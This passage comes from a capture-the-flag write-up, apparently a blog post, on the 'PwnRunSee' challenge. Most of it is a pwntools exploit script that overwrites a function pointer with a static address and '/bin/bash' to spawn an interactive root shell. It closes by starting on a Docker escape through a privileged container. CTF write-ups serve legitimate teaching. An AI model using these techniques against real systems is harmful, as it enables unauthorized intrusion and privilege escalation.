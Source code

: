 #Static address in the binary
#Found by looking at other agents
run_task = 0x804871b
binary = "chall"

#HOST = "pwn-run-see.aperictf.fr"
HOST = "localhost"
PORT = 31337

#Create a ticket
def createTicket(name, dest, descrip, p):
	p.recvuntil("name: ")
	p.sendline(name)
	p.recvuntil("service: ")
	p.sendline(dest)
	p.recvuntil("ion: ")
	p.sendline(descrip)
	p.recvuntil("=> ")

p = remote(HOST, PORT)

#Make Moss Busy to make is ticket count > MAX_AGENT_TICKET
#so he can't process other tickets
for i in range(0, 5):
    p.sendline("3")
    createTicket("AAAA", "ADM", "AAAA", p)

#Process tickets and free Intern
p.sendline("4")
p.recvuntil("=> ")
p.sendline("3")

#Create the Special ticket with /bin/bash to change intern's params
createTicket("AAAA", "ADM", p32(run_task)+"/bin/bash", p)
p.sendline("3")

#Create the ticket to trigger the execve 
createTicket("AAAA", "ADM", "-p", p)
p.sendline("4")
p.interactive()
print p.recvuntil("=> ")
{{< /codeblock >}}


{{< image classes="clear center fig-100" src="/images/PwnRunSee/shell.png" thumbnail="/images/PwnRunSee/shell.png" thumbnail-width="80%" thumbnail-height="80%" >}}

# Part 2

{{< image classes=" center clear fig-100" src="/images/PwnRunSee/part2.png" thumbnail="/images/PwnRunSee/part2.png" thumbnail-width="50%" thumbnail-height="50%" >}}

So we end up part 1 with a shell, but we need to escape from the container. I'm not an expert in docker, but we can quickly spot the {{< hl-text orange >}}privileged: true{{< /hl-text >}} in the dockercompose.yml which sound promising !
